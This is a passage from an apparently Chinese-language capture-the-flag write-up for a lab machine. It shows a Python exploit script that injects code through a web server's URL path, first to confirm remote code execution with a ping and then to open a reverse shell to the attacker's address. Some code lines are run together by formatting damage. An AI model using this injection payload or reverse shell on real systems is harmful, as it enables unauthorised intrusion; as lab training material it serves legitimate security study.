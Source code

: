 很好。让我们更新我们的脚本，看看我们能否在盒子上做一个 RCE。

```
**[exploit.py] - Remote "Ping" Command Attempt**import os
import urllib.parse
import requestsurl = '[http://10.10.10.168:8080/'](http://10.10.10.168:8080/')path = **"""'; os.system("ping -c 1 10.10.14.39");'"""**# URL Encode Mode
path = urllib.parse.unquote(path)
#info = "output = 'Document: {}'"
#exec(info.format(path))r = requests.get(url + path)print(r.status_code)
print(r.headers)
print(r.text)
```

当我们运行 exploit.py 时，我们可以在机器上确认成功的 RCE。

![](img/7660a61357750593d821164074ba2790.png)

## 反向外壳

使用来自 [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 的 python 反向 shell 一行程序，我们可以更新 exploit.py。

```
**[exploit.py] - Python Reverse Shell**import os
import urllib.parse
import requestsurl = '[http://10.10.10.168:8080/'](http://10.10.10.168:8080/')path = **"""'; import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.39",8055));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""**# URL Encode Mode
path = urllib.parse.unquote(path)
#info = "output = 'Document: {}'"
#exec(info.format(path))r = requests.get(url + path)print(r.status_code)
print(r.headers)
print(r.text)
```

当我们运行 exploit.py 时，我们将成功获得作为“www-data”用户的反向 shell。
